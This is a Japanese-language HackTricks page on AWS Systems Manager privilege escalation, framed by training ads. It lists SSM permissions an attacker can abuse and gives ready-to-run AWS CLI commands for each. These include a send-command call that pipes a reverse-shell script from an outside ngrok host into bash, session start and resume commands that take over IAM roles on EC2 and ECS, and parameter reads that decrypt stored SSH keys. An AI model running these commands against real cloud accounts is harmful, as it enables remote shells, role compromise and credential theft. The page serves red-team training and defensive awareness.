 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

SSMに関する詳細情報は次を確認してください：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** の権限を持つ攻撃者は、Amazon SSMエージェントを実行しているインスタンスで**コマンドを実行**し、**その中で実行されているIAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
```markdown
既に侵害されたEC2インスタンス内で特権を昇格させるためにこの技術を使用している場合、次のコマンドでローカルにrevシェルをキャプチャできます：
```
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接的な権限昇格。

### `ssm:StartSession`

**`ssm:StartSession`** の権限を持つ攻撃者は、Amazon SSMエージェントが実行されているインスタンスで**SSHのようなセッションを開始**し、その中で実行されている**IAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
セッションを開始するには、**SessionManagerPlugin**をインストールする必要があります: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接的な権限昇格。

#### ECSへの権限昇格

**ECSタスク**が**`ExecuteCommand`を有効にして実行されると**、十分な権限を持つユーザーは`ecs execute-command`を使用して**コンテナ内でコマンドを実行**できます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは“_exec_”コマンドを開始するために使用するデバイスと、SSMセッションマネージャーを使用したターゲットコンテナとの間に安全なチャネルを作成することによって行われます。（これが機能するためにはSSMセッションマネージャープラグインが必要です）\
したがって、`ssm:StartSession`を持つユーザーは、そのオプションを有効にしてECSタスク内で**シェルを取得**できるようになります。
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在的影響:** `ExecuteCommand`が有効な実行中のタスクに添付された`ECS`IAMロールへの直接的な権限昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`**の権限を持つ攻撃者は、**切断された**SSMセッション状態のAmazon SSMエージェントが実行されているインスタンスでSSHのようなセッションを再**開始**し、その中で実行されているIAMロールを**侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的な影響:** SSMエージェントが実行されているインスタンスに接続されたEC2 IAMロールへの直接的な権限昇格と切断されたセッション。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

言及された権限を持つ攻撃者は、**SSMパラメータ**をリストし、**平文で読む**ことができるようになります。これらのパラメータには、SSHキーやAPIキーなどの**機密情報**が頻繁に**見つかる**ことがあります。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的な影響:** パラメータ内の機密情報を見つける。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、そこに**機密情報**が含まれていることを期待できます。
```
aws ssm list-commands
```
**潜在的な影響:** コマンドライン内の機密情報を見つける。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、生成された**出力を読み取る**ことができ、そこに**機密情報**を見つけることが期待されます。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的影響:** コマンドラインの出力内に機密情報を見つける。

### Codebuild

SSMを使用して、ビルド中のcodebuildプロジェクトにアクセスすることもできます：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
